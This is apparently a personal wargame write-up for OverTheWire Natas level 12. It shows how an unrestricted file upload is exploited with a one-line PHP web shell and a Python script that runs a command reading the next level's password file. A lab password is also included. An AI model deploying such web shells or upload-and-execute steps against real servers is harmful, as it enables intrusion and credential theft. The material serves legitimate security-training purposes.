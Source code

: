 
2024-07-14 18:54

Source: #youtube #overthewire #natas #web 

Tags:[[Local File Inclusion & Command Injection]]

Natas12

we have a unrestricted file upload functionality 

create a `php` file named `revshell.php` with the following contents, we will modify the `c` parameter later 
```
<?php
	system($_GET['c']);
?>
```

```
import requests
username = 'natas12'
password = 'yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB'

url = 'http://natas12.natas.labs.overthewire.org/'
sessions = requests.Session()

#response = sessions.post(url,files = {"uploadedfile" : open('revshell.php','rb')},data = {"filename": "revshell.php"},auth = (username,password))

response = sessions.get(url + 'upload/kx42yjw6zv.php?c=cat /etc/natas_webpass/natas13',auth = (username,password))

print(response.text)
```
1. commented code uploads our created `php` file  using `.post` method  
2. the output of the commented code will reveal the newly created file name on the server of the file that we uploaded 
3. in our case the path is `upload/kx42yjw6zv.php`
4. we append the path to the `url` and try executing commands by adding our commands to the previously defined `c` parameter.





### References
https://www.youtube.com/watch?v=fqwxYowJA0c